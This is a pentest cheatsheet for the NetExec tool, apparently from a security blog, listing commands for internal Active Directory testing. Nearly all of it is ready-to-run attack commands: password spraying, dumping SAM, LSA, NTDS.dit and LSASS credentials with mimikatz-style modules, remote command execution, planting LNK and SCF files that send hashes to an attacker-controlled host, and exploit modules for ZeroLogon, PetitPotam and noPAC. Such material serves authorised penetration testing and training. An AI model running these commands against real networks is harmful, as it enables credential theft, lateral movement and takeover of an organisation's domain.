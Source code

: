 # NetExec Cheatsheet

A quick and dirty cheatsheet on the usage of [NetExec](https://github.com/Pennyw0rth/NetExec), without lots of explications, only commands. The purpose of this page is to provide the basic commands for the essential operations during an internal pentest.

If you need more detailed documentation, please refer to the [**official NetExec wiki**](https://www.netexec.wiki/).

And obviously, if you need more complete cheatsheets with most of the attacks to perform in Active Directory environments, take a look to [my other contents](https://hideandsec.sh/books/cheatsheets-82c).

## Enumeration

### Network

`netexec smb $TARGETS`

### Shares

`netexec smb $TARGETS -u $USERNAME -p $PASS --shares`

### Specific files in shares

A module for searching network shares:spider_plus. Running the module without any options (on a /24, for example) will produce a JSON output for each server, containing a list of all files (and some info), but without their contents. Then grep on extensions (conf, ini...) or names ($PASS .. ) to identify an interesting file to search:

`netexec smb $TARGETS -u $USERNAME -p $PASS -M spider_plus`

Then, when identifying a lot of interesting files, to speed up the search, dump this on the attacker machine by adding the -o READ_ONLY=False option after the -M spider_plus (but avoid /24, otherwise it'll take a long time). In this case, NetExec will create a folder with the machine's IP, and all the folders/files in it.

`netexec smb $TARGETS -u $USERNAME -p $PASS -M spider_plus -o READ_ONLY=False`

### Sessions

`netexec $TARGETS -u $USERNAME -p $PASS --sessions`

### Disk

`netexec smb $TARGETS -u $USERNAME -p $PASS --disks`

### Users

Logged : `netexec smb $TARGETS -u $USERNAME -p $PASS --loggedon-users`

Domain : `netexec smb $TARGETS -u $USERNAME -p $PASS --users`

Via RID Cycling : `netexec smb $TARGETS -u $USERNAME -p $PASS --rid-brute`

### Groups

Domain : `netexec smb $TARGETS -u $USERNAME -p $PASS --groups`

Local : `netexec smb $TARGETS -u $USERNAME -p $PASS --local-groups`

### Password policy

`netexec smb $DC -u $USERNAME -p $PASS --pass-pol`

## Check credentials

### User + pass

`netexec smb $TARGETS -u $USERNAME -p $PASS`

### User + hash

`netexec smb $TARGETS -u $USERNAME -H 'LM:NT'`

`netexec smb $TARGETS -u $USERNAME -H 'NTHASH'`

### Null session

`netexec smb $TARGETS -u '' -p ''`

### Password spraying

`netexec smb $TARGET -u $USERNAME user2 user3 -p Summer18`

`netexec smb $TARGET -u $USERNAME -p $PASS1 $PASS2 $PASS3`

`netexec smb $TARGET -u /path/to/users.txt -p Summer18`

`netexec smb $TARGET -u $USERNAME -p /path/to/$PASSs.txt`

To continue spraying after success :

`netexec smb $TARGET -u /path/to/users.txt -p Summer18 --continue-on-success`

### Local authentication

`netexec smb $TARGETS -u $USERNAME -p $PASS --local-auth`

## Dump credentials

### SAM

`netexec smb $TARGETS -u $USERNAME -p $PASS --sam`

### LSA

`netexec smb $TARGETS -u $USERNAME -p $PASS --lsa`

### NTDS.dit

`netexec smb $DC -u $USERNAME -p $PASS --ntds #Via RPC`

`netexec smb $DC -u $USERNAME -p $PASS --ntds vss #Via VSS`

### LSASS

`netexec smb $TARGET -u $USERNAME -p $PASS -M lsassy`

`netexec smb $TARGET -u $USERNAME -p $PASS -M nanodump`

`netexec smb $TARGET -u $USERNAME -p $PASS -M mimikatz`

`netexec smb $TARGET -u $USERNAME -p $PASS -M procdump`

### LAPS password

`netexec ldap $DC -u $TARGET -p $PASS -M laps -o computer=$TARGET`

## Command execution

### Via CMD

`netexec $TARGET -u Administrator -p $PASS -x whoami`

### Via PowerShell

`netexec $TARGET -u Administrator -p $PASS -X '$PSVersionTable'`

## Write a leak file

### LNK

`netexec smb $TARGETS -u $USERNAME -p $PASS -M slinky -o SERVER=$ATTACKER_IP -o NAME=<file_name>`

### SCF

`netexec smb $TARGETS -u $USERNAME -p $PASS -M scuffy -o SERVER=$ATTACKER_IP -o NAME=<file_name>`

## Search for CVE

### ZeroLogon

`netexec smb $DC -u '' -p '' -M zerologon`

### PetitPotam

`netexec smb $DC -u '' -p '' -M petitpotam`

### noPAC

`netexec smb $DC -u $USERNAME -p $PASS -M nopac`
